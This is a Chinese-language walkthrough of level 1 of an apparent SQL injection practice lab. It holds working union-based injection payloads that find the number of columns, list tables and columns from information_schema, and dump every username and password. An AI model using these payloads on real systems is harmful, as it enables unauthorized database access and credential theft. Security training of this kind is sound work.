SQL注入 Less-1：

进入靶场，发现没有任何输入框，只能从网址url框进行操作。首先要判断是有回显还是无回显。



尝试输入?id=1和?id=2，均有回显，发现能查询到对应id的用户名和密码，由此发现输入不同的id能查询到不同的账户和密码。



如果输入?id=-1，则没有任何回显，所以id输入非正数是错误的输入，得不到任何输出。由此可见，这一关属于有回显式



判断注入点类型—单引号测试

输入?id=1’

报错，属于字符型注入，SQL语法有错误！



在后面加上 --+，发现能正常回显用户名和密码



尝试id=1’ and 1=1 --+



尝试id=1’ and 1=2 --+，没有回显，验证出：若是数字不相等依然报错



判断字符数

用order by查询字段个数，从1开始，然后慢慢增加数字，直到报错



继续尝试order by 2和3，结果都和上图一样，正常

但当order by 4的时候，出现了报错，所以证明有3个字段



使用联合查询确定显示位置

Id=1’ union select 1,2,3 --+



因为查询语句前面是对的，所以显示前面的内容，后面的无法显示，不能确定显示的位置，所以用id=-1’这种错误的输入，来显示后面的内容，以确定显示的位置



成功确定显示位置！

查询数据库的名称



得到数据库库名为security

查询表名

?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+



查询到四个表名分别为emails、referers、uagents和users

查询users表的列名

?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+



查询所有的用户名和密码

?id=-1' union select 1,group_concat(username,'~',password),3 from users --+


